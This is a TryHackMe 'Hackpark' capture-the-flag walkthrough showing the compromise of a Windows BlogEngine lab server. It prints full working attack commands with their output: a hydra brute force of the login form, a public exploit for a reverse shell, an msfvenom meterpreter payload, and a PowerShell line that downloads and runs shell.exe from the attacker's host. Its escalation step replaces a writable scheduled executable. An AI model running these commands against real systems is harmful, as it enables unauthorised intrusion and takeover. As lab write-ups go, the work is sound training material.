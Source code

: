 ```yaml
---
title: 'Hackpark - TryHackMe Walkthrough'
date: 2020-07-04 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Brute forcing a website login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!
---
```


## Goal  
Brute forcing a website login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!

### Reconnaissance
- There is a HTTP webpage on port 80 and is running a blog.  
- Have couple pages and a login page at:  http://10.10.81.179/Account/login.aspx?ReturnURL=/admin/  
- The home page is having a clown and with a Google Image search, it is "Pennywise".  
- When visited the home page source, can see the comment saying the website is using BlogEngine 3.3.6.0  
- Performed a nmap scan on the server to find if there are any open ports and other services.

```
    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 8.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 6 disallowed entries
    | /Account/*.* /search /search.aspx /error404.aspx
    |_/archive /archive.aspx
    |_http-server-header: Microsoft-IIS/8.5
    |_http-title: hackpark | hackpark amusements
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-04T17:15:46+00:00; -5s from scanner time.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: -5s
```

- From the nmap results, we can see the server is running IIS HTTP 8.5 on port 80 and have 6 pages that are blocked for crawlers.  
- 3389 is open - potentially for RDP.  

### Cracking the login credentials
The default credentials for Blog Engine are admin:admin (Googled it), but it didn't worked, so let's brute force the admin id using `hydra`.

Before that we need to know the post request that this web page is generating for login, using `Burp` we can intercept the request and gather the required information.

```
    POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
    Host: 10.10.226.92
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.226.92/Account/login.aspx?ReturnURL=/admin/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 560
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    __VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

Using the above information from Burp, we can now frame the request in hydra for brute forcing.

```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.226.92 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-04 20:43:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.226.92:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 949.00 tries/min, 949 tries in 00:01h, 14343450 to do in 251:55h, 16 active
[80][http-post-form] host: 10.10.226.92   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-04 20:45:33

```
The brute force attack found the password for admin account as: 1qaz2wsx

### Getting a reverse shell
- Using the [exploit](https://www.exploit-db.com/exploits/46353), update the local host ip in it and upload the file with the name as PostView.ascx using the post editor.
- Open a netcat session to receive a reverse shell connection `nc -lnvp 4445`
Run the exploit with directory traversal `10.10.73.64/?theme=../../App_Data/files`
- On successful exploit, the reverse shell was established on the netcat session:

```bash
    $ nc -lnvp 4445
    listening on [any] 4445 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.73.64] 54341
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog
```
The web server is running with the user `iis apppool\blog`.

### Privilege Escalation

- Lets create a meterpreter session for more stable executions, to do this, we need to create a payload using msfvenom:

`$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=4444 -f exe -o shell.exe`

- Open a reverse shell handler in Metasploit using the `exploit/multi/handler` with payload `windows/meterpreter/reverse_tcp` on port 4444.

- Start a simple web server using `python3 -m http.server` in same directory.
In the reverse shell that was already opened earlier, with the help of powershell lets download the payload and start the process.

```
    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    c:\Windows\Temp>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    dir
    c:\Windows\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is 0E97-C552
     Directory of c:\Windows\Temp
    07/05/2020  08:34 AM    <DIR>          .
    07/05/2020  08:34 AM    <DIR>          ..
    08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
    08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
    08/06/2019  02:13 PM             1,206 cleanup.txt
    08/06/2019  02:13 PM               421 cmdout
    08/06/2019  02:11 PM                 0 DMI2EBC.tmp
    08/03/2019  10:43 AM                 0 DMI4D21.tmp
    08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
    08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
    07/05/2020  08:34 AM    <DIR>          Microsoft
    07/05/2020  08:34 AM            73,802 shell.exe
    08/06/2019  02:13 PM                21 stage1-complete.txt
    08/06/2019  02:13 PM            28,495 stage1.txt
    05/12/2019  09:03 PM           113,328 svcexec.exe
    08/06/2019  02:13 PM                67 tmp.dat
                  13 File(s)        708,784 bytes
                   3 Dir(s)  39,141,916,672 bytes free

    .\shell.exe
    c:\Windows\Temp>.\shell.exe  
```

- This should open a Meterpreter session:

```
    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >

```

Let see what services are running on the host and if there are any that we can use for exploit:  `meterpreter > ps`.  

From the listed services, we can see windows scheduler is running.


     1376  672   WService.exe
     1556  1376  WScheduler.exe

Navigate to `c:\Program Files (x86)\SystemScheduler\Events` to examine the scheduler logs and the file `20198415519.INI_LOG.txt` shows there is a service `Message.exe` which is running every 30 seconds and the file is writable to everyone.

    100777/rwxrwxrwx  536992   fil   2019-08-04 07:36:42 -0400  Message.exe

 Using the above, we can now replace this file with a malicious code which can spawn a shell. We already have a shell code that was generated using `msfvenom` earlier, so lets upload that to the victim and rename to Message.exe

```
    meterpreter > upload shell.exe
    [*] uploading  : shell.exe -> shell.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> shell.exe
    [*] uploaded   : shell.exe -> shell.exe
    meterpreter > dir
```

Background the current Meterpreter session and start a new `multi/handler`  reverse shell listener. Wait for the scheduler to execute the malicious code and once executed, a new connection is established with administrator id.

```
    meterpreter > background
    [*] Backgrounding session 2...
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.2.18.4:4444
    [*] Sending stage (176195 bytes) to 10.10.29.198
    [*] Meterpreter session 3 opened (10.2.18.4:4444 -> 10.10.29.198:64956) at 2020-07-05 12:56:07 -0400
    meterpreter > shell
    Process 2484 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\PROGRA~2\SYSTEM~1>whoami
    whoami

    C:\PROGRA~2\SYSTEM~1>echo %username%
    echo %username%
    Administrator
```

- We now have the Meterpreter session with Administrator access and grab the flags from `C:\Users\jeff\Desktop\user.txt` and `C:\Users\Administrator\Desktop\root.txt` which are 759bd8af507517bcfaede78a21a73e39 and 7e13d97--------9881a3eb3d78d3e72 respectively.


### Using WinPEAS

 [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a utility where we can find more information about the Windows host and for any vulnerabilities. Download the file into the victim machine just like shell.exe above.

From the Meterpreter, start the shell and execute the winPEAS.bat.

    meterpreter > shell
    Process 1008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    c:\Windows\Temp>.\winPEAS.bat

The system Original Install Date:     8/3/2019, 10:43:23 AM.
